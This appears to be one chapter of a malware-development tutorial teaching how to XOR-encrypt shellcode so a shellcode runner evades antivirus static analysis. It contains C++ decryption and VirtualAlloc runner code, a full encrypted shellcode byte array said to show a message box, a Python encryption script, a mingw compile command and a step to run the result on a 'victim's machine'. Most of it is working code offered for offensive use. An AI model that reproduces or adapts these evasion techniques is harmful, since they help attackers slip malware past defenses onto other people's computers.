



# 04 - evasion: payload encryption

Let's say we have a simple shellcode runner malware.    

Let's go to bypass AV static analysis.     

For this first we must encrypt our payload. Why we want to encrypt our payload? The basic purpose of doing this to hide you payload from someone like AV engine or reverse engineer. So that reverse engineer cannot easily identify your payload.    

The purpose of encryption is the transform data in order to keep it secret from others. For simplicity, we use XOR encryption for our case.    

Let’s take a look at how to use XOR to encrypt and decrypt our payload.    

Add XOR function:   

```cpp
char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}
```

Then update our simple malware code:    

```cpp
//....
// decrypt payload
deXOR((char*)payload, sizeof(payload), secretKey, sizeof(secretKey));

// allocate memory buffer for payload
payload_mem = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// etc...
```

And the other difference is our payload:    

```cpp
// payload: messagebox (XOR encrypted)
unsigned char payload[] = { 0x3b, 0xe6, 0x8f, 0x5a, 0x2d, 0xf7, 0x97, 0x95, 0x2b, 0xff, 0x70, 0x12, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x21, 0x65, 0x63, 0x72, 0x8d, 0xea, 0x73, 0x65, 0x63, 0x3e, 0xee, 0x8c, 0x3b, 0xe8, 0x6e, 0x2f, 0x65, 0x74, 0x73, 0x9a, 0xb3, 0x3a, 0xe8, 0x61, 0x2c, 0x65, 0x63, 0x72, 0x2d, 0xf9, 0x7e, 0x28, 0x63, 0x72, 0x65, 0x9c, 0xc, 0x65, 0x63, 0x72, 0x28, 0x47, 0xba, 0x29, 0xee, 0x77, 0x4, 0x74, 0x73, 0x65, 0x2b, 0xff, 0x70, 0x3a, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x2b, 0xff, 0x70, 0x22, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x79, 0x65, 0x63, 0x72, 0x8d, 0x22, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x28, 0x37, 0x37, 0x3a, 0x36, 0x29, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3e, 0xa, 0x15, 0x17, 0x29, 0xa, 0x10, 0x17, 0x15, 0x1, 0x1c, 0x22, 0x72, 0x30, 0x27, 0x36, 0x37, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x27, 0x1b, 0xb, 0x24, 0x63, 0x3a, 0x0, 0x18, 0x1f, 0xa, 0x43, 0x5, 0xa, 0x6, 0x1f, 0x1, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x65, 0x31, 0xb, 0xc, 0x17, 0x22, 0x17, 0x1b, 0x10, 0x0, 0x10, 0x1, 0x65, 0x3c, 0xf0, 0x89, 0x4b, 0x17, 0x29, 0xff, 0x77, 0x40, 0x3, 0x72, 0x65, 0x74, 0x3e, 0xee, 0x23, 0x6a, 0x28, 0xf9, 0x13, 0x75, 0x2e, 0xf9, 0x61, 0x50, 0x8f, 0x2c, 0xe8, 0xa, 0x5, 0x3c, 0xf8, 0x94, 0xcf, 0xf6, 0xa5, 0x0, 0x55, 0xef, 0x44, 0xf2, 0x99, 0x15, 0xf, 0x66, 0xe3, 0x9e, 0x45, 0x4e, 0x93, 0x10, 0x6b, 0x3a, 0x9a, 0xb3, 0x3b, 0x9a, 0xa4, 0x99, 0x80, 0x39, 0xf8, 0x65, 0x2e, 0x49, 0xa1, 0x1, 0xa5, 0x2d, 0x50, 0xb2, 0x8c, 0xd3, 0x73, 0x65, 0x63, 0x3b, 0xee, 0x2c, 0x43, 0x21, 0xe8, 0x39, 0x59, 0x38, 0x70, 0xae, 0x2a, 0xf3, 0xa4, 0xfc, 0x73, 0x65, 0x63, 0x37, 0xee, 0x5d, 0x3e, 0xe0, 0x8e, 0x7, 0x6d, 0x3c, 0x40, 0xa5, 0x8a, 0xf7, 0x65, 0x74, 0x73, 0x2b, 0xee, 0x76, 0x4e, 0x31, 0xf8, 0x14, 0x67, 0x3f, 0x66, 0x81, 0x32, 0xee, 0x2b, 0x6a, 0x20, 0xff, 0x23, 0x45, 0x2f, 0x71, 0xb6, 0x8b, 0xba, 0x28, 0xee, 0x7e, 0xef, 0x35, 0xf8, 0x5c, 0x2b, 0x71, 0x9e, 0x3c, 0xf8, 0x97, 0xc5, 0x7, 0x6d, 0xfe, 0x75, 0xe1, 0xa3, 0x6, 0x6c, 0x9f, 0x86, 0x87, 0x85, 0x3a, 0x56, 0xb4, 0x98, 0x2b, 0x26, 0xf9, 0x2d, 0x50, 0x3f, 0x66, 0xa8, 0x14, 0x24, 0xff, 0x7f, 0x2c, 0x26, 0xf9, 0x2d, 0x68, 0x3f, 0x66, 0xa8, 0x33, 0xee, 0x70, 0xfa, 0x2c, 0x58, 0xb7, 0x19, 0x5b, 0x3a, 0x5e, 0xa5, 0x1, 0x4f, 0x3c, 0xfe, 0x51, 0x7b, 0x3a, 0xe8, 0x8, 0x57, 0x55, 0x2f, 0xf9, 0x82, 0xd0, 0xf3, 0x5b, 0x4d, 0x7, 0x9f, 0xd0, 0xb4, 0x62, 0x27, 0x3e, 0x29, 0x74, 0x3a, 0xee, 0xaf, 0x33, 0x9a, 0xa3, 0x3a, 0xee, 0xaf, 0x3a, 0xee, 0xa2, 0x9a, 0x71, 0x9c, 0x8d, 0x9a, 0x3c, 0x70, 0xa6, 0x2b, 0xf1, 0xa1, 0x5c, 0xb0 };
```

which encrypted with XOR

For that create simple python script which encrypt payload and replace it in our C++ template:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "secret"

plaintext = open("./hello.bin", "rb").read()
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)
```

Run python script:    

```bash
python3 xor.py
```

    

Compile malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Then run it on our victim's machine:    

```powershell
.\hack.exe
```

    